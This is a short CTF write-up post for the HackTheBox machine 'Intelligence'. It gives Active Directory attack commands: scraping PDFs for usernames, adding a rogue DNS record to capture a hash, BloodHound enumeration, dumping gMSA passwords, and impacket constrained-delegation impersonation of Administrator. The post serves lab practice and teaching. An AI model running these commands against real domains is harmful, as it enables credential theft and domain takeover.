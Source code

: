 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/1JTeYTgqVUk/0.jpg
layout: post
media_subpath: /assets/posts/2021-11-27-password-spraying-gmsa-adidns-constrained-delegation-intelligence-hackthebox
tags:
- active directory
- constrained delegation
- dns
- gmsa
- hackthebox
- password spraying
- windows
title: Password Spraying, gMSA, ADIDNS & Constrained Delegation - Intelligence
  @ HackTheBox
---
```


We are solving intelligence, a nice Windows machine on HackTheBox, created by Micah. For user, we will enumerate pdfs on a webserver & will use both the content & metadata to find valid credentials of a domain user. For root, we update a DNS entry, steal a hash & dump a GMSA password. Finally, we will exploit constrained delegation with impacket to get an administrator ticket.

{% youtube 1JTeYTgqVUk %}

## Notes

**Handle PDFs:**

```
for d in $(seq -f "%02g" 1 31); do for m in $(seq -f "%02g" 1 12); do wget -nv http://intelligence.htb/documents/2020-$m-$d-upload.pdf 2>/dev/null; done; done

for f in *.pdf; do pdftotext $f - >> output.txt; done

for f in *.pdf; do exiftool $f | grep Creator | awk -F ': ' '{print $2}' >> users.txt; done
```

**Set DNS Entry:**

```
python3 dnstool.py -u 'INTELLIGENCE\Tiffany.Molina' -p '' -a add -r 'webxct' -d '10.10.14.13'  10.129.193.97
```

**Bloodhound:**

```
bloodhound-python -c all -u Ted.Graves -p '' -d intelligence.htb -dc dc.intelligence.htb -ns 10.129.193.97 --disable-pooling -w1 --dns-timeout 30
```

**Dump gMSA Passwords from Linux:**

```
python3 gMSADumper.py -u Ted.Graves -p Mr.Teddy -d intelligence.htb
```

**Constrained Delegation:**

```
impacket-getST -spn www/dc.intelligence.htb 'intelligence.htb/svc_int$' -hashes :''-impersonate Administrator -dc-ip 10.129.193.97 
```

**Links:**

<https://github.com/dirkjanm/krbrelayx>

<https://github.com/micahvandeusen/gMSADumper>